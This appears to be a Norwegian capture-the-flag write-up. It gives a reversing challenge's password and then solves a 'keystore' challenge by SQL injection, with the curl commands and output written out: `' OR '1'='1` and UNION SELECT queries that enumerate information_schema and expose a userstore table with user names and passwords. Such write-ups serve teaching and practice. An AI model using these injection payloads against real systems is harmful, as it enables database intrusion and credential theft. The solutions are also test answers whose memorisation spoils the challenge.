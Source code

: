 Løsningen er derfor
```bash
login@corax:~/1_grunnleggende/5_reversing$ ./check_password Reverse_engineering_er_morsomt__
```

# 2. Oppdrag
## 2.1_keystore
I første delen, så er vi på jakt etter et navn. Det hintes det til en keystore-server, med et eksempel på en URL som personen har brukt. Denne serveren er en keystore, som gir deg en public key om du gir inn et nøkkelnavn. Denne har en triviell SQL injection, noe som kan oppdages ved å legge til f.eks. `' OR '1'='1` bak `oper@cloud-mgr-15`, og så ser du at alle nøklene plutselig kommer ut.

Jeg løste dette via UNION injection. Da må man første finne ut hvor mange kolonner det er i queryen, ved å prøve `UNION SELECT 1` og så `1,2` etc. til man ikke får feilmelding.
```bash
login@corax:~$ curl -g "http://keystore/query.php?keyname=oper@cloud-mgr-15'+UNION+SELECT+1,2,3;--+-"
```

gir ikke feilmelding, og printer ut "1 2 3" i tillegg til nøkkelen, så vi kan hente ut 3 andre felt i hver spørring. Uten å gå altfor i detalj, så er teknikken herfra å sjekke i `information_schema`-databasen etter navnet på databasene vi har, så navnet på alle tabeller som finnes i databasen(e), og så finne kolonnene i hver tabell.

```bash
login@corax:~/scratch$ curl -g "http://keystore/query.php?keyname=oper@cloud-mgr-15'+UNION+ALL+(SELECT+1,2,schema_name FROM information_schema.schemata);--+-"
1 2 information_schema
1 2 keystore
```

Så vi har én database kalt `keystore`.

```bash
login@corax:~/scratch$ curl -g "http://keystore/query.php?keyname=oper@cloud-mgr-15'+UNION+ALL+(SELECT+table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'information_schema');--+-"
keystore keystore key_id
keystore keystore key_type
keystore keystore key_data
keystore keystore owner
keystore user_key_upload user_id
keystore user_key_upload key_id
keystore user_key_upload upload_date
keystore userstore user_id
keystore userstore user_name
keystore userstore user_password
```

Inni den er det 3 tabeller: `keystore`, `user_key_upload` og `userstore`. Kolonnene til hver av de er også i outputen. Det som virker interessant er `userstore.user_name`. Man kan sikkert skrive en pen query som henter ut nøyaktig bruker, men jeg endte opp med å bare dumpe alle databasene. Da ser man at `oper@cloud-mgr-15`-nøkkelen har id 17693, og i `user_key_upload` får man da ut at brukeren med id 20524 har lastet opp denne. Sjekker man til sist i `userstore`, så finner man et hacker-navn.
